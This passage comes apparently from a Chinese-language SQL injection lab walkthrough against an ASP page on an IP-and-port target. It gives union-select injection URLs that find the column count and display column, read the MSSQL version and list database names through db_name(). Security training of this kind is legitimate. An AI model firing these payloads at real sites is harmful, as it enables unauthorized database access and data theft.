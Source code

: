```
http://219.153.49.228:40574/new_list.asp?id=-2 union all select null,null,null,null -- qwe
```

[![](https://p2.ssl.qhimg.com/t01c956d559eaff2a4a.png)](https://p2.ssl.qhimg.com/t01c956d559eaff2a4a.png)

2、替换null为’null’，获取显错点

```
http://219.153.49.228:40574/new_list.asp?id=-2 union all select null,'null','null',null -- qwe
```

[![](https://p3.ssl.qhimg.com/t01661e89ccac5d5661.png)](https://p3.ssl.qhimg.com/t01661e89ccac5d5661.png)

当第一个字符设置为字符串格式时，页面报错，很明显这个就是id了，为整型字符。

```
http://219.153.49.228:40574/new_list.asp?id=-2 union all select 'null','null','null',null -- qwe
```

[![](https://p5.ssl.qhimg.com/t0100837f900c3ef729.png)](https://p5.ssl.qhimg.com/t0100837f900c3ef729.png)

### <a class="reference-link" name="3%E3%80%81%E9%80%9A%E8%BF%87%E6%98%BE%E9%94%99%E7%82%B9%E8%8E%B7%E5%8F%96%E6%95%B0%E6%8D%AE%E5%BA%93%E4%BF%A1%E6%81%AF"></a>3、通过显错点获取数据库信息

1、获取数据库版本

```
http://219.153.49.228:40574/new_list.asp?id=-2 union all select null,'1',(select @@version),null -- qwe
```

[![](https://p4.ssl.qhimg.com/t012f189779bf95f529.png)](https://p4.ssl.qhimg.com/t012f189779bf95f529.png)

2、查询当前数据库名称<br>
通过轮询db_name(**)里**的内容，获取所有数据库库名

```
http://219.153.49.228:40574/new_list.asp?id=-2 union all select null,'1',(select db_name()),null -- qwe
http://219.153.49.228:40574/new_list.asp?id=-2 union all select null,'1',(select db_name(1)),null -- qwe
http://219.153.49.228:40574/new_list.asp?id=-2 union all select null,'1',(select db_name(2)),null -- qwe
http://219.153.49.228:40574/new_list.asp?id=-2 union all select null,'1',(select db_name(3)),null -- qwe
http://219.153.49.228:40574/new_list.asp?id=-2 union all select null,'1',(select db_name(4)),null -- qwe
http://219.153.49.228:40574/new_list.asp?id=-2 union all select null,'1',(select db_name(5)),null -- qwe
```

[![](https://p5.ssl.qhimg.com/t01b48e6d8d29baefaa.png)](https://p5.ssl.qhimg.com/t01b48e6d8d29baefaa.png)
